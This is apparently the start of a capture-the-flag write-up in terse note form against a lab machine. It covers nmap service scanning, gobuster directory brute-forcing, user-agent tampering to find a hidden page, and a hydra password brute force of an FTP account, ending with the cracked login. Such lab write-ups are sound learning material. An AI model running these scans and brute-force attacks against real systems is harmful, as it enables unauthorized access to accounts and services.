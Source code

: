 # Nmap scanning
nmap $IP -sT -sV -sV -oA nmap/res

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-17 08:50 EST
Nmap scan report for 10.10.59.141
Host is up (0.079s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.40 seconds

# Discovering web site

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 

# Dirbusting via gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.out -x php,sh,txt,js,css,html,py,dic

# Nothing found

# Let's try to change user-agent using burp suite to access another web page using alphabet as a list for brute forcing 
# agent_C_attention.php found
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 

# Trying to brute force ftp for user chris
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.59.141

[21][ftp] host: 10.10.59.141   login: chris   password: crystal
